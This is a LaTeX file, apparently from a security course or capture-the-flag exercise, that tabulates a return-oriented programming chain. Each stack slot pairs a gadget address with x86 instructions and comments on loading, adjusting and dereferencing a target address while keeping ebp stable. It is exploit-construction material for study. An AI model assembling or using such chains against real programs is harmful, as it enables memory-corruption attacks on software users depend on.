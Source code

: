 \documentclass{article}
\begin{document}
\begin{center}
    \begin{tabular}{|c|c|c|}
        \hline
        & \textbf{Stack (lower=bottom)} & \textbf{Explanation} \\
        \hline
        \hline
        13 & \texttt{0x9ad9e716} & // load [[0x70707070]+1B] to eax \\
        & & mov eax, DWORD PTR [eax+0Fh] \\
        & & ret \\
        \hline
        12 & \texttt{0x9ad9e711} & inc eax //thirds part of add up to 1B-F \\
        & & ret \\
        \hline
        11 & \texttt{0x9ad9e711} & inc eax //second part of add up to 1B-F \\
        & & ret \\
        \hline
        10 & \texttt{0x9ad9e709} & mov ecx, eax //first part of add up to 1B-F \\
        & & add ecx, 0Ah \\
        & & mov eax, ecx \\
        & & ret \\
        \hline
        9 & \texttt{0x9ad9e716} & mov eax, DWORD PTR [eax+0Fh] // load \\
        & & [0x70707070] to eax \\
        & & ret \\
        \hline
        8 & \texttt{0x15771690} & //junk \\
        \hline
        7 & \texttt{0x15771690} & //junk \\
        \hline
        6 & \texttt{0x15771690} & //junk \\
        \hline
        5 & \texttt{0x9ad9e700} & //place load address in eax and \\
        & & junk in others \\
        & & add eax, ebx\\ 
        & & pop ebx \\
        & & pop ecx \\
        & & pop ebx \\
        & & ret \\
        \hline
        4 & \texttt{0x9ad9e706} & //clear eax for jump \\
        & & xor eax,eax \\
        & & ret \\
        \hline
        3 & X+4 & //Current ebp location to make sure it doesnt \\
        & & change when poped \\
        \hline
        2 & \texttt{0x70707061} & //0x70707070-0x0F \\
        \hline
        1 & \texttt{0x9ad9e713} & //load addres for first derefrence \\
        & & pop ebx \\
        & & pop ebp \\
        & & ret \\
        \hline        
    \end{tabular}\\
\end{center}
\end{document}
